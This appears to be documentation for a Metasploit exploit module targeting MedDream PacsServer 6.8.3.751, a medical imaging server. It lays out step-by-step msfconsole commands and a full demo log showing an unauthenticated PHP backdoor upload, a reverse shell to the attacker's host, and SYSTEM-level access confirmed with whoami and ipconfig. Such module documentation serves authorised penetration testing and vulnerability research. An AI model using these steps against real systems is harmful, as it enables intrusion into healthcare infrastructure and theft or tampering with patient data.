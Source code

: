 ## Details
This module exploits a vulnerability found in MedDream PacsServer 6.8.3.751, which allows unauthenticated attackers to perform Remote Code Execution via an arbitrary PHP file upload. Depending on how the web server is configured to run will determine what level of access privilege obtained.

## Verification
List the steps needed to make sure this thing works

- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/meddream_pacs_rce`
- [ ] `set rhosts <ip address of meddream pacs server>`
- [ ] `check`
- [ ] **Verify** that application is vulnerable
- [ ] `set lhost <ip address of metasploit system>`
- [ ] `exploit`
- [ ] **Verify** that shell is returned

## Demo
```
$ ./msfconsole -q
msf6 > use exploit/windows/http/meddream_pacs_rce
[*] Using configured payload php/reverse_php
msf6 exploit(windows/http/meddream_pacs_rce) > set rhosts 192.168.0.223
rhosts => 192.168.0.223
msf6 exploit(windows/http/meddream_pacs_rce) > check

[+] MedDream version 6.8.3 detected
[*] 192.168.0.223:80 - The target appears to be vulnerable.
msf6 exploit(windows/http/meddream_pacs_rce) > set lhost 192.168.20.100
lhost => 192.168.20.100
msf6 exploit(windows/http/meddream_pacs_rce) > exploit

[*] Started reverse TCP handler on 192.168.20.100:4444
[*] Uploading backdoor file: BeKzHyHnC.php
[*] New filename on system: '20201016-132215--BeKzHyHnC.php
[*] Trigging the exploit...
[*] Command shell session 1 opened (192.168.20.100:4444 -> 192.168.0.223:50372) at 2020-10-16 13:22:15 -0400
[!] Tried to delete 20201016-132215--BeKzHyHnC.php, unknown result

whoami
nt authority\system
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : foo.bar
   Link-local IPv6 Address . . . . . : fe80::d125:4e8f:1f9d:4399%2
   IPv4 Address. . . . . . . . . . . : 192.168.0.223
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 192.168.254.254
```
## Test Environment
Tested against MedDream PacsServer 6.8.3.751 running on Windows 2016

